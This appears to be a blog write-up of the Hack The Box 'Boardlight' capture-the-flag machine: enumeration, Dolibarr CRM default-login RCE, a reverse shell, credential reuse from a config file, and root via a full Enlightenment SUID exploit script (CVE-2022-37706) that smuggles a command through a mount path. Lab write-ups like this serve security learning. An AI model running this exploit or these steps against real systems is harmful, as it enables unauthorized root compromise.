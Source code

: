 ```yaml
---
layout: post
title: "[HTB] Boardlight"
slug: "boardlight"
date: "2024-10-04"
comments: false
categories:
  - hacking
tags:
  - ctf
  - cve
  - hack the box
  - crm
---
```


### Enumeration
**IP**: 10.10.11.11

#### Nmap

```bash
> nmap -sC -sV -v 10.10.11.11
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.22)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/administrator/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.22)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/administrator/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a few ports open, let us enumerate the `http` port first.

![img](/images/boardlight/index.png)

We can see that `info@board.htb` is written in about section. We let's add that as the hostname to our given ip address.

![img](/images/boardlight/board.htb.png)

Enumerating subdomain using vhosts we have a hit.

![img](/images/boardlight/crm.board.png)

Let's add `crm.board.htb` to our `/etc/hosts` and enumerate it.

We found a login page for a `crm`.
![img](/images/boardlight/crm.board.index.png)

On googling the version number of the crm software we find that there is a cve.
[CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). Searching for POC we get a [starlabs.sg](https://starlabs.sg/advisories/23/23-4197/)

So we have authenticated rce by injecting php code. Our initial step is to find credentials for authentication. After googling for default credentials, we can try `admin:admin`.

![img](/images/boardlight/dashboard.crm.png)

Add `<?php ?>` tags to the payload in the **POC**.

![img](/images/boardlight/poc.png)

We get RCE and executed a command. Now create a listener on your host and get a reverse shell.

![img](/images/boardlight/cmd.png)

![img](/images/boardlight/nc.png)

Navigating to `/home` we get a user `larissa`. After some investigation into `/var/www/html/crm.board.htb` we find `conf.php` at `/var/www/html/crm.board.htb/htdocs/conf/conf.php`.

![](/images/boardlight/conf.png)

So we have `dolibarrowner:serverfun2$2023!!` as credentials. Reuse the password with `larissa`

We can ssh with the credentials.

![img](/images/boardlight/ssh.png)

We now have user. Let's try to find escalation vectors for root.

Running `linpeas` on the system we find a binary with `SUID`bit set. So let's google the binary.

![img](/images/boardlight/enlightenment.png)

We find that there is a CVE and exploit from [exploitdb](https://www.exploit-db.com/exploits/51180)

Here is modified script for the exploit.
```bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

We now have root.
![img](/images/boardlight/root.png)

Machine has been pwned.
![img](/images/boardlight/pwned.png)
